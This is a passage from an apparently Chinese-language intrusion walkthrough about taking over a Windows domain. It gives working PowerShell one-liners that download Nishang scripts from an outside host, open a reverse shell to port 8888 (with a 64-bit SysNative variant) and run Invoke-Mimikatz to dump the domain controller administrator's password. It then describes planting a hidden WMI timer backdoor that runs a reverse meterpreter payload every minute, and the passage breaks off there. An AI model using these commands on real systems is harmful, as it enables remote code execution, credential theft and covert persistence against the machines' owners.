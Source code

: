 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/c334041bgy1fj7he1w6l7j211l0hvtxm.jpg)

Ps: 攻击的时候如果dns在内网要记得hosts的地址绑定。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/c334041bgy1fj7hee9it0j20bn040wgp.jpg)

用得到的 shell 反弹一个 PoweShell 出来到本地8888端口，如果你用下面的语句反弹的话将得到是一个32位的 PowerShell ：  

```
powershell IEX (New-Object Net.WebClient).DownloadString('
http://10.101.101.16/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp
 -Reverse -IPAddress 10.101.101.16 -port 8888
```

这个时候如果你运行：

```
IEX (New-Object Net.WebClient).DownloadString('
http://10.101.101.16/nishang/Gather/Invoke-Mimikatz.ps1');Invoke-Mimikatz
```

系统会报错，原因是你不能在32位的 Shell 中运行64位的程程序，这里涉及到一个64位系统文件重定向的问题，参考：[http://www.cnblogs.com/lhglihuagang/p/3930874.html](http://www.cnblogs.com/lhglihuagang/p/3930874.html)，所以正确的做法是使用下面的代码来反弹一个64位的 PowerShell ：  

```
C://Windows//SysNative/WindowsPowerShell//v1.0//powershell.exe IEX (New-Object Net.WebClient).DownloadString('
http://10.101.101.16/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp
 -Reverse -IPAddress 10.101.101.16 -port 8888
```

再次运行：

```
IEX (New-Object Net.WebClient).DownloadString('
http://10.101.101.16/nishang/Gather/Invoke-Mimikatz.ps1');Invoke-Mimikatz
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/c334041bgy1fj7hfvkcvgj21gg0rdhdt.jpg)

成功得到域控管理员的密码，下面我们要在域控上面安装一个隐蔽的后门，参考：

[http://www.moonsec.com/post-621.html](http://www.moonsec.com/post-621.html)

[https://www.secpulse.com/archives/39555.html](https://www.secpulse.com/archives/39555.html)

[http://wooyun.jozxing.cc/static/drops/tips-15575.html  ](http://wooyun.jozxing.cc/static/drops/tips-15575.html%C2%A0%C2%A0);

这里利用三好学生的方法制作一个 wmi 的后门，首先在自己的 Web 目录下写一个 mof.ps1 ，这个文件作用是用利用 wmi 的定时器的功能让系统每分钟执行一次我们的 payload，这个 mof.ps1 我放在 [https://github.com/niexinming/safe_tool/blob/master/mof_time.ps1](https://github.com/niexinming/safe_tool/blob/master/mof_time.ps1) ，我还写了一个可以劫持进程的 Powershell 脚本，放在 [https://github.com/niexinming/safe_tool/blob/master/mof_hijack.ps1](https://github.com/niexinming/safe_tool/blob/master/mof_hijack.ps1) ，这里我的 Payload 用一个反弹 meterpreter 连接的脚本，mof.txt：  
